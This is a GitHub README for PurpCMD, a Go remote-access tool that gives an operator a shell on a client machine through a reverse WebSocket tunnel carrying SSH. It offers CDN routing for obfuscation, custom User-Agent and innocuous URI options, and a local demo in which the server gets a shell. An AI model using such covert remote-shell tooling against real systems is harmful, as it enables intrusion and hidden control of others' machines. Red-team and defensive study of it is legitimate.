 # PurpCMD

Purpcmd operates by initiating a simple SSH server on the client side. Leveraging SSH has many improved features to work with remote terminals, such as enhanced interaction quality, window resizing, full duplex communications, and more. This type of approach tends to work better than using reverse shell, that use system features, synchronized sockets and IO, it will have limited capabilities. Purpcmd employs a reverse WebSocket connection to seamlessly synchronize the SSH connection with the server.

The communication is secure and very malleable. It can be channeled through Content Delivery Network (CDN) to enhance obfuscation and other security measures.

![img1](img/img1.png)

```
Server usage: purpcmd server [options] ...
	-k configures the path to the private key.
	By default an embed key pair is used to authenticate the
	connection.
	Use "-k /path/to/id_rsa"

Client usage: purpcmd client [options] ...
	-ua defines the User-Agent HTTP header to use
	during the request.

	-p must be used to set the path to a public key.
	By default an embed key pair is used to authenticate the
	connection. If the server is using a custom private key,
	this option must be used to specify the pair.
	Use "-p /path/to/id_rsa.pub"
	
Global Options:
	-a is the address to listen on or connect to.
	Use "-a 127.0.0.1:8080".
		
	-uri configures the URI where to connect or to receive 
	the websocket connection.
	Use "-uri /assets";

```

### 1. Start the server

```
go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
```

### 2. Execute the client

```
go run . client -a 0.0.0.0:8080
2024/02/17 01:10:32 Connecting to ws://0.0.0.0:8080/
2024/02/17 01:10:32 Key O+XvBDAEHzyN9s78Iy6iegk3vWT7hzQZsErg/2Y+Ehg= found.
2024/02/17 01:10:32 Client got shell
```

### 3. Use the server new shell

```
╰─$ go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
2024/02/17 01:10:32 Proxy connected 0.0.0.0:8080
Setting up STDIN
Setting up STDOUT
Setting up STDERR
call shell
farinap@xyz:~/go/src/PurpleCommand$ ls
LICENSE  README.md  agent  go.mod  go.sum  img  main.go  server  utils
farinap@xyz:~/go/src/PurpleCommand$
```